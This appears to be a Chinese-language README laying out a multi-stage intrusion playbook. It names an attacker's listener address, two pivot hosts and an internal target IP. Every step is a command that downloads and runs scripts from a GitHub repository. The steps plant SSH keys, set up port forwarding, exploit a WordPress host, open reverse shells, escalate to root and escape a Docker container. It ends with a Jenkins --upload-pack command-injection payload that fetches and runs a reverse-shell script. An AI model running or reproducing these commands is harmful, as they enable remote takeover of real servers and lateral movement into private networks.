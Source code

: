 ## 攻击机接受反弹shell的地址
ddns.randomhhh.top:9000  经本地路由器端口转发后的端口为 4444

## 跳板机1 ip
34.92.246.183
## 跳板机2 ip
35.220.174.61

## 目标主机的内网ip
10.170.0.3

# 拿下跳板机1后攻击流程的指令
### 下载addKey.sh 修改权限， 执行，配置主机的ssh公钥，用于ssh登录
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/addkey.sh && chmod 755 ./addkey.sh && ./addkey.sh
``` 
## 利用跳板机1做转发，访问wordpress站点
```
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/port-forward.py && python ./port-forward.py 5555:35.220.174.61:80
```
### 下载exploitFirst.py 执行，攻击跳板机2
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/exploitFirst.py && python exploitFirst.py
```
### webshell内下载reverse1.sh 修改权限，反弹shell到 34.92.246.183:4444
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse1.sh 
chmod 755 ./reverse1.sh 
./reverse1.sh
```
### 下载getPty.py ,执行,获取pty
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/getPty.py && python getPty.py
```
### 下载upRight.sh, 修改权限，执行，提权至root
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/upRight.sh && chmod 755 ./upRight.sh && ./upRight.sh
```
### 下载预先编译的沙箱逃逸二进制，修改权限，执行，在docker外反弹一个shell至 34.92.246.183:4444
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/replaceRunc && chmod 755 ./replaceRunc && ./replaceRunc
```
### 分别在跳板机1 和 跳板机2 上开下载和开启端口转发，以访问内网
```bash
# 跳板机1 5555:35.220.174.61:5555
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/port-forward.py && python ./port-forward.py 5555:35.220.174.61:5555
# 跳板机2 5555:10.170.0.3:80
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/port-forward.py && python ./port-forward.py 5555:10.170.0.3:80
```

### 最后访问Jenkins漏洞利用的页面，输入下面的payload
```bash
--upload-pack="`wget -O /tmp/reverse2.sh https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse2.sh`"
--upload-pack="`chmod 755 /tmp/reverse2.sh`"
--upload-pack="`/tmp/reverse2.sh `"
```
